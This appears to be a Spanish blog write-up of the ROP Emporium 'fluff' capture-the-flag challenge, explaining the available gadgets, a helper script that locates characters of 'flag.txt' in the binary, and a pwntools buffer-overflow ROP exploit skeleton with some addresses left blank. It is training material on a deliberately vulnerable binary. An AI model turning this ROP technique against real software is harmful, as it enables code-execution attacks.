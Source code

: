 ```yaml
---
title: Solución Ropemporium fluff
date: 2024-01-14
categories: [rop, 64bits, bof]
tags: [64bits, bof, rop]
---
```


# Introducción

El Desafío **Ropemporium fluff** presenta similitudes con el desafío [write4](https://lavclash75.github.io/posts/write4/). La tarea consiste en identificar **gadgets** para escribir en registros. El enunciado advierte sobre la disponibilidad limitada de gadgets en este binario y sugiere explorar **questionableGadgets**. Además, se nos encomienda realizar una llamada a la función **print_file()**.

## Exploración de Gadgets en `questionableGadgets`

Para comprender mejor las herramientas disponibles en questionableGadgets, hemos utilizado **pwndbg** para analizar la función.
![Pwndbg questionable](/assets/img/rop/questionableGadgets.png)

1. **Gadget 1:** `xlat BYTE PTR ds:[rbx]`
   - *Descripción:* Realiza una traducción de byte utilizando el contenido de `rbx`.
   - *Utilidad:* Ideal para manipular y transformar datos almacenados en el registro `rbx`.

2. **Gadget 2:** `pop rdx; pop rcx; add rcx,0x3ef2`
   - *Descripción:* Desapila valores en `rdx` y `rcx`, luego suma `0x3ef2` a `rcx`.
   - *Utilidad:* Ofrece control sobre los registros `rdx` y `rcx`, permitiendo manipulación eficiente de datos.

3. **Gadget 3:** `bextr rbx,rcx,rdx`
   - *Descripción:* Realiza una extracción de bits desde `rcx` hasta `rdx` y almacena el resultado en `rbx`.
   - *Utilidad:* Útil para operaciones avanzadas de manipulación de bits.

4. **Gadget 4:** `stos BYTE PTR es:[rdi],al`
   - *Descripción:* Almacena el contenido del registro `al` en la dirección apuntada por `rdi` en la segmentación de datos.
   - *Utilidad:* Simplifica la escritura eficiente de datos en memoria.

Esta exploración detallada proporciona una base sólida para construir nuestra cadena **ROP** de manera estratégica, utilizando estos **gadgets** de manera coordinada para lograr con éxito nuestro objetivo de invocar la función `print_file()`.

# Enfoque de explotación

Con un **offset** de 40 bytes una vez controlamos **RIP**, utilizaremos los siguientes gadgets: `bextr_rbx_rcx_rdx` para extraer bits y `xlatb`.

### Determinación de Dirección de Datos:

Identificar la dirección de datos donde se almacenarán los datos, en este caso, la cadena **"flag.txt"**.

### Localización de Caracteres en la Memoria:

Buscar la dirección de cada carácter individual en la cadena **"flag.txt"** en el binario utilizando la función read y almacenarlo en un **array**.

El siguiente script realiza esta tarea:

```python
from pwn import *

binary_content = open('fluff', 'rb').read()
binary_offset = 0x400000
string_to_write = b"flag.txt"
char_locations = []

for char in string_to_write:
    char_addr = hex(binary_content.find(char) + binary_offset)
    char_locations.append(char_addr)
    print(f"{chr(char)} encontrado en {char_addr}")
```

### Gadgets
Necesitamos **pop_rdi** y también necesitaremos saber la dirección de ``rax, así como pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;`` , ``stosb byte ptr [rdi], al; ret;`` y ``print_file``

### Esqueleto del exploit

```python
from pwn import process, p64, log

shell = process("./fluff")

offset = 40
junk = b"A" * offset

strings = []
flag = "flag.txt"

print_file = p64()
data = 

pop_rdi = p64()
stosb = p64()
xlatb = p64()
pop_rdx = p64()

rax = 

payload  = b""
payload += junk

for i in range(len(flag)):
    payload += pop_rdx + p64(0x2000) + p64(strings[i] - 0x3ef2 - rax)
    payload += xlatb
    payload += pop_rdi + p64(data + i)
    payload += stosb
    rax = ord(flag[i])

payload += pop_rdi
payload += p64(data)
payload += print_file

shell.sendlineafter(b"> ", payload)

flag = shell.recvline_contains(b"ROPE").decode()
log.info(f"Flag: {flag}")
```
Empezamos con el **script** anteriror para saber los **strings** que seran los siguientes:

```shell
f encontrado en 0x4003c4
l encontrado en 0x400239
a encontrado en 0x4003d6
g encontrado en 0x4003cf
. encontrado en 0x40024e
t encontrado en 0x400192
x encontrado en 0x400246
t encontrado en 0x400192
```
Luego los **gadgets** que los sacamos de **questionableGadgets**:

```0x0000000000400628 <+0>:	xlat   BYTE PTR ds:[rbx]```

```0x0000000000400639 <+17>:	stos   BYTE PTR es:[rdi],al```

```0x000000000040062a <+2>:	pop    rdx```

Ahora nos falta la dirección de **print_file**, la cual podemos obtener utilizando **Radare2**. La dirección es la siguiente: ``0x00400510``. También nos queda **rax**, que podemos ver usando Pwndbg con un breakpoint, que sería así: ``0xb``. No hago mucho énfasis en esta parte, ya que hemos estado trabajando en estos conceptos en desafíos anteriores.

# Exploit

![Pwndbg questionable](/assets/img/rop/fluffexp.png)